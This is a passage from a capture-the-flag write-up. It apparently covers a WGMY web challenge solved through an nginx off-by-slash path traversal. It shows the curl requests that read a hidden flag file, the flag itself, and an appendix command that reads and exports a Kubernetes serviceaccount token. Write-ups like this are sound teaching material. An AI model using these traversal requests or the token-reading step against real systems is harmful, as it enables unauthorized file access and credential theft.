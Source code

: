 We could see that there is `off-by-slash` on `/static` which allows us to
read the `.lemme_try_hiding_flag_with_dot_in_front/flag_for_status` file by
accessing `/static../.lemme_try_hiding_flag_with_dot_in_front/flag_for_status`

```console
$ env | grep FRONTEND
WGMY_WEBTESTONETWOTHREE_FRONTEND_PORT_80_TCP_ADDR=10.43.246.102
WGMY_WEBTESTONETWOTHREE_FRONTEND_PORT_80_TCP_PORT=80
WGMY_WEBTESTONETWOTHREE_FRONTEND_PORT_80_TCP_PROTO=tcp
WGMY_WEBTESTONETWOTHREE_FRONTEND_PORT_80_TCP=tcp://10.43.246.102:80
WGMY_WEBTESTONETWOTHREE_FRONTEND_SERVICE_PORT_HTTP=80
WGMY_WEBTESTONETWOTHREE_FRONTEND_SERVICE_HOST=10.43.246.102
WGMY_WEBTESTONETWOTHREE_FRONTEND_SERVICE_PORT=80
WGMY_WEBTESTONETWOTHREE_FRONTEND_PORT=tcp://10.43.246.102:80

$ nslookup 10.43.246.102
Server:         10.43.0.10
Address:        10.43.0.10:53

102.246.43.10.in-addr.arpa      name = wgmy-webtestonetwothree-frontend.wgmy.svc.cluster.local

$ curl -s -L http://wgmy-webtestonetwothree-frontend.wgmy.svc.cluster.local/static../.lemme_try_hiding_flag_with_dot_in_front/flag_for_status
wgmy{21c47f8225240bd1b87e9060986ddb4f}

$ curl -s -L http://10.43.246.102/static../.lemme_try_hiding_flag_with_dot_in_front/flag_for_status
wgmy{21c47f8225240bd1b87e9060986ddb4f}
```

flag: `wgmy{21c47f8225240bd1b87e9060986ddb4f}`

[Next](../secret/), we would look at the other `nginx` endpoint, i.e., `/internal-secret`
to get the other flag.

## References

- <https://kubernetes.io/docs/reference/using-api/api-concepts/#resource-uris>
- <https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf#page=19>

## Appendix

### Getting k8s serviceaccount Token

To interact with the API, we need to get the `serviceaccount` token.

```console
$ cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Im5oUXBoT0FLNVY5U2llMDR2ZFpfeDByYlpCVEtRQlVDUlB[...]

$ export k8s_token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```
